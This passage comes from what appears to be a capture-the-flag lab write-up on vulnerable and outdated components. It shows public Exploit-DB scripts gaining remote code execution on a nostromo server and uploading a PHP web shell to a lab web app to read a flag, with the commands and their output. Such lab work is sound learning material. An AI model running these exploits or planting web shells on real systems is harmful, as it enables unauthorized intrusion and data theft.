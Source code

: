 ### 🚀 Step 4: Run the Exploit Again

```bash
python2 47837.py 127.0.0.1 80 id

```

You got:

```bash
uid=1001(_nostromo) gid=1001(_nostromo) groups=1001(_nostromo)

```

✅ **BOOM!** You have **Remote Code Execution** — you can now run commands on the server!

### 💡 Key Takeaways:

- If software is outdated, it’s often **already vulnerable**.
- Many public exploits are already written.
- You just need to find the software version and **match it with an existing CVE**.
- Sometimes exploits are buggy — know a little code to fix them.

## Vulnerable and Outdated Components - Lab

![Screenshot From 2025-05-24 04-26-43.png](img14.png)

[https://www.exploit-db.com/exploits/47887](https://www.exploit-db.com/exploits/47887)

```jsx
└─$ python3 47887.py http://10.10.95.2:84/
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.95.2:84/bootstrap/img/p8FFawxJFu.php
> Example command usage: http://10.10.95.2:84/bootstrap/img/p8FFawxJFu.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $ ls
android_studio.jpg
beauty_js.jpg
c_14_quick.jpg
c_sharp_6.jpg
doing_good.jpg
img1.jpg
img2.jpg
img3.jpg
kotlin_250x250.png
logic_program.jpg
mobile_app.jpg
p8FFawxJFu.php
pro_asp4.jpg
pro_js.jpg
unnamed.png
web_app_dev.jpg

RCE $ cat /../../opt/flag.txt
THM{But_1ts_n0t_my_f4ult!}

RCE $ 

```
